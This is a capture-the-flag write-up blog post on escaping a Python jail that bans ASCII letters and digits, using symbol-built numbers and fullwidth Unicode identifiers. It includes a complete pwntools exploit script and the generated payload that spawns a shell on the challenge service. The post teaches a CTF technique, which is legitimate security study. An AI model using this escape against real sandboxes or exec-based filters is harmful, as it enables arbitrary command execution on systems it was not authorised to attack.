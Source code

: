 ```yaml
---
setup: |
  import Layout from '../../layouts/BlogPost.astro'
  import PictureThemed from '../../components/PictureThemed.astro'
title: pyjail escape without ascii characters and numbers - bluehens writeup
publishDate: 2023-11-1
description: writeup for bluehens 2023
tags: ['writeup', 'python', 'pyjail']
permalink: https://halb.it/posts/bluehens-pyjail/
---
```


### the challenge

The challenge code consisted in a very short python script, running behind netcat

```python
blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

security_check = lambda s: any(c in blacklist for c in s) or s.count('_') > 50

while True: 
    cmds = input("> ")
    if security_check(cmds):
        print("nope.")
    else:
        exec(cmds, {'__builtins__': None}, {})
    
```

For the uninitialized, this is a very common pyjail setup:

- The `security_check` function makes sure the user input does not contain any ascii letter or number

- if the input is valid, it is executed in an environment without any builtin

- By looking at the challenge Dockerfile, it's clear that our goal is to read the `/flag` file and print it

### python without letters or numbers

The Javascript language can be written using only combinations of the symbols `[]()!+` in a dialect known as [jsfuck](https://jsfuck.com).
Unfortunately python does not reach these levels of greatness, but it can get close thanks to some quirks of it's implicit type conversion system:

- `False` => `[] > []`
- `True`  => `[[]] > []`
- `0` => `-([] > [])`
- `-1` => `~([] > [])`
- `1` => `-~([] > [])`
- `2` => `1+1` =>  `(-~[]<[])+(-~([]<[])) `

With some creativity, it's easy to create any number. There is the possibility for a lot of fancy optimizations if you are allowed to use `*, <<, >>` or other operators. The current challenge however does not have a payload size constraint, so we'll fight the urge to find an optimal solution, and keep everything as simple as possible

```python
def craft_num(n):
    """
    craft symbol-only numbers, in an inefficient way
    """
    str_0 = "-([]<[])"
    str_1 = "(-~([]<[]))"
    if n == 0:
        return str_0
    ret = f"{str_1}+" * n
    return ret[:-1]
```

Unfortunately this is where we meet a wall, because python3 does not offer any way to create strings or execute statements with symbols only.
That was only possible in the age of python2 thanks to the 
backtick
(&#96;)
operator, now removed from the standard, that acted as an alias for the `repr()` function.

### filter bypass using utf-8 identifiers

If python3 broke the dream of a symbols-only python dialect, it also brought 
UTF-8 identifiers to the standard.
In our case, that feature is good enough to bypass the no-ASCII filter.<br/>
According to [the reference](https://docs.python.org/3/reference/lexical_analysis.html#identifiers):

> Python 3.0 introduces additional characters from outside the ASCII rannge. [...]
All identifiers are converted into the normal form NFKC while parsing; comparison of identifiers is based on NFKC.

what does that mean?
The Unicode standard supports the concept of [equivalence](https://www.wikiwand.com/en/Unicode_equivalence#/Normal_forms).
If we look at this useful page for the [codepoint for the letter a](https://www.compart.com/en/unicode/U+0061) for example,
we can see a long list of symbols that are declaratively similar in appearance or meaning to the ASCII letter 'a'.<br/> Here are some examples:

- U+1D4B6 𝒶 Mathematical Script Small A
- U+1D4EA 𝓪 Mathematical Bold Script Small A
- U+1D552 𝕒 Mathematical Double-Struck Small A
- U+1D586 𝖆 Mathematical Bold Fraktur Small A

All these fancy codepoints will be converted into the correct ASCII letter when [normalized](https://unicode.org/reports/tr15/#Norm_Forms), which is an operation that python3 performs before parsing an identifier.

And that's it! A lot of words just to say that we can bypass the filter by converting all the ASCII letters in our exploit into italics!<br/>
The following function automates the operation by converting every ASCII letter into the equivalent
[ｆｕｌｌｗｉｄｔｈ ｌｅｔｔｅｒｓ](https://www.compart.com/en/unicode/U+FF41)

```python
def denormalize(str):
    ret = ""
    for c in str:
        if c >= "a" and c <= "z":
            # https://www.compart.com/en/unicode/U+FF41
            # weird fullwidth a
            # the first of a sequence of codepoints compatible with ASCII letters
            weird_a = 0xff41
            offset = ord(c) - ord("a")
            ret += chr(weird_a + offset)
        else:
            ret += c

    # replace all underscores that are not at the beginning of an identifier with
    # https://www.compart.com/en/unicode/U+FF3F
    # fullwidth underscore
    ret = re.sub(r"(?<![\.\[\( ])_", chr(0xff3f), ret)

    return ret
```

### escaping the pyjail

Now that we have the ability to fully bypass the filter, we can write a classic pyjail escape payload and send it. This is the end result:

```python
from pwn import *
import re


def craft_num(n):
    """
    craft symbol-only numbers, in an inefficient way
    """
    str_0 = "-([]<[])"
    str_1 = "(-~([]<[]))"
    if n == 0:
        return str_0
    ret = f"{str_1}+" * n
    return ret[:-1]


def denormalize(str):
    ret = ""
    for c in str:
        if c >= "a" and c <= "z":
            # https://www.compart.com/en/unicode/U+FF41
            # weird fullwidth a
            # the first of a sequence of codepoints compatible with ASCII letters
            weird_a = 0xff41
            offset = ord(c) - ord("a")
            ret += chr(weird_a + offset)
        else:
            ret += c
    # replace all underscores that are not at the beginning of an identifier with
    # https://www.compart.com/en/unicode/U+FF3F
    # fullwidth underscore
    ret = re.sub(r"(?<![\.\[\( ])_", chr(0xff3f), ret)
    return ret


def craft_os_str():
    """
    payload for generating the string "_os"
    """
    underscore_str = f"().__init__.__name__[{craft_num(0)}]"
    s_str = f"[].__doc__[{craft_num(17)}]"
    br = "{}"
    o_str = f"{br}.__class__.__base__.__doc__[{craft_num(15)}]"
    os_str = f"({underscore_str})+({o_str})+({s_str})"
    return os_str


def craft_bash_str():
    """
    payload for generating the string "$0"
    which in the challenge environment is equivalent to
    the command "/bin/sh"
    """
    num_0_str = f"({craft_num(0)}).__doc__[{craft_num(33)}]"
    bash_str = f"'$'+({num_0_str})"
    return bash_str


expl_find_FileLoader = f"().__class__.__base__.__subclasses__()[{craft_num(118)}]"
expl_find_os_module  = f"{expl_find_FileLoader}.__init__.__globals__[{craft_os_str()}]"
expl_shell           = f"{expl_find_os_module}.system({craft_bash_str()})"

expl = expl_shell
expl = denormalize(expl)

print(expl)

conn = remote("localhost", 1337)
conn.sendlineafter(">", expl.encode())
conn.interactive()

```

when we execute the script, it will generate this huge payload:

```
()._＿ｃｌａｓｓ＿＿._＿ｂａｓｅ＿＿._＿ｓｕｂｃｌａｓｓｅｓ＿＿()[((-~([]<[]))<<((-~([]<[]))<<-([]<[])))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[]))))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))]._＿ｉｎｉｔ＿＿._＿ｇｌｏｂａｌｓ＿＿[(()._＿ｉｎｉｔ＿＿._＿ｎａｍｅ＿＿[-([]<[])])+({}._＿ｃｌａｓｓ＿＿._＿ｂａｓｅ＿＿._＿ｄｏｃ＿＿[((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<-([]<[])))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[]))))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))))])+([]._＿ｄｏｃ＿＿[((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))])].ｓｙｓｔｅｍ('$'+((-([]<[]))._＿ｄｏｃ＿＿[((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<-([]<[]))+((-~([]<[]))<<((-~([]<[]))<<((-~([]<[]))<<-([]<[])))))]))

```

Then pwntools will automatically send the payload and open an interactive shell, from which we can just `cat /flag`

### the rest of the owl

If you are confused by all those underscores,
I suggest you to look up the basics of classic pyjail escapes.
[Others](https://blog.pepsipu.com/posts/albatross-redpwnctf), far better than me, have explained that magic

